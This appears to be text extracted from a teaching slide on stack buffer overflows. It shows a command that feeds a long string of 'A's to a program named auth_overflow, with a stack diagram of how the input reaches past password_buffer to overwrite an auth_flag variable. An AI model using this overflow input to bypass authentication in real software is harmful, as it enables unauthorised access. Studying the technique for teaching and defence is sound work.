

# >> ./auth_overflow $(perl –e ’print “A”x16’) ?
<- esp

argv[1]
AAAA
$0x1c(ebp)
password_buffer
AAAA
$0x18(ebp)
AAAA
$0x14(ebp)
AAAA
$0x10(ebp)
auth_flag
00
$0xc(ebp)
%esi
%edi
%ebp (check_auth)
<- ebp
STACK